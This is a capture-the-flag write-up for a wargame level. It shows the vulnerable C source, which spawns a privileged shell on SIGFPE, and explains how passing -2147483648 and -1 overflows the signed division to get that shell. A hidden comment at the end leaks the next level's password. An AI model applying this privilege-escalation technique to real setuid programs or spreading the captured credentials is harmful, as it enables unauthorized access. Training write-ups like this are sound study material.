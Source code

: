 ## Level 2:

This time we get access to the source file for the level02 program (i.e. level02.c)

```c
//a little fun brought to you by bla

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void catcher(int a)
{
    setresuid(geteuid(),geteuid(),geteuid());
	printf("WIN!\n");
    system("/bin/sh");
    exit(0);
}

int main(int argc, char **argv)
{
	puts("source code is available in level02.c\n");

    if (argc != 3 || !atoi(argv[2]))
        return 1;
    signal(SIGFPE, catcher);
    return abs(atoi(argv[1])) / atoi(argv[2]);
}
```

We can see that the setuid bit is set in the catcher function and it gives us the shell we need to proceed. To solve this we need to trigger the SIGFPE singal.

SIGFPE - (Signal Floating-Point Exception) Erroneous arithmetic operation, such as zero divide or an operation resulting in overflow (not necessarily with a floating-point operation).

To trigger this we need to make either overflow or devision by zero. Division by zero is being checked in the if statement so we need to find a way to overflow. Signed INT has 1 more negative value and abs() returns absolut value only if it exists. Using the lowest negative value for Signed INT: **-2147483648** for argv 1 and **-1** for argv 2 we get a negative number devided by a negative number which produces positive number which using these 2 numbers is **2147483648** which overflows the INT and triggers the signal() and gives us level3 shell.

```console
level2@io:/levels$ ./level02 -2147483648 -1
source code is available in level02.c

WIN!
sh-4.3$ 
```

<!-- Level 3 password => OlhCmdZKbuzqngfz -->